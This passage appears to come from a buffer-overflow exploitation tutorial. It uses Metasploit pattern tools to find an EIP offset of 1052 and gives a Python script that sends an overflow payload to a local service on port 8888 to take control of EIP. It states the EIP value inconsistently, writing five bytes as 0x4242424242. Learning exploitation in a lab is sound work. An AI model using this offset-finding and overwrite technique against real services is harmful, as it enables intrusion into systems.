 > 0Bj1
```
The command prints the hexadecimal string "30426A31" (xxd -ps -r) converts this hexadecimal string into a text string. Finally
We can see in which part of the created pattern the string "0Bj1" is located.
```
/opt/metasploit/tools/exploit/pattern_create.rb -l 5000 | grep "0Bj1" --color
```
> 0BilBi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj```0Bj1```Bj2Bj3Bj4Bj5Bj6...<SNIP>

Then the string "0Bj1" corresponds to what is overwritten in "EIP", so we know how many characters we have to enter until we take control of the EIP.

```
/opt/metasploit/tools/exploit/pattern_offset.rb -q 0x316A4230
> [*] Exact match at offset 1052
```
Thus, the offset corresponds to 1052 characters.
In this way, we will verify that what we are seeing is actually happening.

We define a variable offset = 1052
[See the code]
In addition, we have defined the variables:
before_EIP
EIP
after_EIP

```python3
#!/usr/bin/python3

import socket, signal, sys

def def_handler(sig, frame):
    print("\n\n[!]Saliendo...\n")
    sys.exit(1)

#Ctrl + C
signal.signal(signal.SIGINT, def_handler)

#Global
ip_address = "127.0.0.1"
offset = 1052
before_EIP = b"A" * offset
EIP = b"B"*4 #We put "4" B, since the format is 4 bytes.
after_EIP = b"C"*500 #To see where the data is being deposited after EIP

payload = before_EIP + EIP + after_EIP



def makeConnection(): 

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, 8888))
    s.send(payload)


if __name__ == '__main__':

    makeConnection()
```
We run the script and see that the EIP is pointing to the process **"0x4242424242".**
This corresponds to "BBBB"
